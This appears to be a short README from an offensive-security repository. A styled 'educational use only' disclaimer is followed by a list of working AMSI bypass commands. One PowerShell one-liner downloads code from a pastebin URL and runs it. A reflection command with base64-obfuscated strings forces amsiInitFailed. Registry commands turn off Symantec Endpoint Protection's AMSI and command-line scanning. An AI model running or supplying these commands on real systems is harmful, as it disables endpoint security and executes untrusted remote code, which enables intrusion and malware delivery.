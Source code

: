 <div style="font-family: Arial, sans-serif; line-height: 1.6; max-width: 800px; margin: auto; padding: 20px; background-color: #f8f9fa; border: 1px solid #e9ecef; border-radius: 5px;">
    <div style="background-color: #343a40; color: white; padding: 10px; text-align: center; border-radius: 5px 5px 0 0;">
        <h1>Disclaimer</h1>
    </div>
    <div style="padding: 10px; border-bottom: 1px solid #e9ecef;">
        <h2 style="color: #007bff;">Educational Use Only</h2>
        <p>The tools and scripts provided herein are intended solely for educational and research purposes. They are designed to help individuals learn about cybersecurity and develop their skills in a controlled, ethical, and legal manner.</p>
    </div>
    <div style="padding: 10px; border-bottom: 1px solid #e9ecef;">
        <h2 style="color: #007bff;">No Illegal Activity</h2>
        <p>It is strictly prohibited to use these tools and scripts for any illegal activity, including but not limited to unauthorized access to computer systems, networks, or data. Misuse of these resources can lead to severe legal consequences.</p>
    </div>
    <div style="padding: 10px; border-bottom: 1px solid #e9ecef;">
        <h2 style="color: #007bff;">Permission Required</h2>
        <p>Before using or executing any tools or scripts provided, you must obtain explicit permission from the owner of the system or network you intend to test. Unauthorized use of these tools and scripts is unethical and illegal.</p>
    </div>
    <div style="padding: 10px; border-bottom: 1px solid #e9ecef;">
        <h2 style="color: #007bff;">No Warranty</h2>
        <p>These tools and scripts are provided "as is" without any warranty of any kind. The author(s) and distributor(s) of these resources are not responsible for any damage or legal issues that may arise from their use.</p>
    </div>
    <div style="padding: 10px;">
        <h2 style="color: #007bff;">Acknowledgment</h2>
        <p>By downloading, using, or executing any tools or scripts provided herein, you acknowledge that you understand and accept this disclaimer in its entirety.</p>
    </div>
</div>


test if AMSI is activated :

 - powershell "Invoke-Expression (Invoke-WebRequest
   http://pastebin.com/raw.php?i=JHhnFV8m)"

- [Reflection.Assembly]::LoadWithPartialName('System.Management.Automation.AmsiUtils')    | Out-Null

Maybe :

- [Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)


- reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Symantec\Symantec Endpoint Protection\AV\Storages\Filesystem\RealTimeScan" /v AMSIEnabled /t REG_DWORD /d 0 /f && reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Symantec\Symantec Endpoint Protection\AV\Storages\Filesystem\RealTimeScan" /v CommandLineScanEnabled /t REG_DWORD /d 0 /f
